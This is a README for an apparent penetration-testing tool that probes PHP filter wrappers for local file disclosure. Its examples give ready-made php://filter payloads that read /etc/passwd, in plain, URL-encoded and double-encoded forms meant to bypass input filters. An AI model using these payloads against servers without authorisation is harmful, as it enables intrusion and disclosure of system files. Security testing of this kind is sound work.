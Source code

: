 PHP Filter Testing Tool

## Overview

This Python program tests PHP filter wrappers to read local files on a web server. It allows you to select different filters, encoding types, and files to test.

## Installation

Install required packages:

```
pip install requests colorama
```

## Usage

Run program:

```
python PHP_Filter_Tester.py
```

You will be prompted to enter:

- Target URL 
- File to read
- Filter type
- Specific filter
- URL encoding type

The program makes a request using your selections and prints the response.

## Examples

**Read /etc/passwd with normal base64 filter**

```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd  

Select filter type: 1 (Normal)

Select filter to test: 4 (convert.base64-decode) 

Select URL encoding type: 1 (Normal)

Testing: http://example.com/php://filter/convert.base64-decode/resource=/etc/passwd
```

This tests the base64-decode filter on the /etc/passwd file without any URL encoding.

**Read /etc/passwd with encoded base64 filter**


```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd

Select filter type: 2 (Encoded)

Select filter to test: 6 (convert.base64-encode|convert.base64-decode)

Select URL encoding type: 2 (Encoded) 

Testing: http://example.com/php%3a%2f%2ffilter%2fconvert%2ebase64-encode%7cconvert%2ebase64-decode%2fresource%3d%2fetc%2fpasswd
```

This tests the base64 filter with URL encoding to bypass filters.

**Read /etc/passwd with double encoded zlib filter**

```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd  

Select filter type: 3 (Double Encoded)

Select filter to test: 9 (zlib.deflate/convert.base64-encode)

Select URL encoding type: 3 (Double Encoded)

Testing: http://example.com/php%253A%252F%252Ffilter%252Fzlib%252Edeflate%252Fconvert%252Ebase64-encode%252Fresource%253D%252Fetc%252Fpasswd
```

This shows how to double encode the filter and URL to bypass restrictions.

This demonstrates how you can test different filter wrappers to identify file read vulnerabilities.

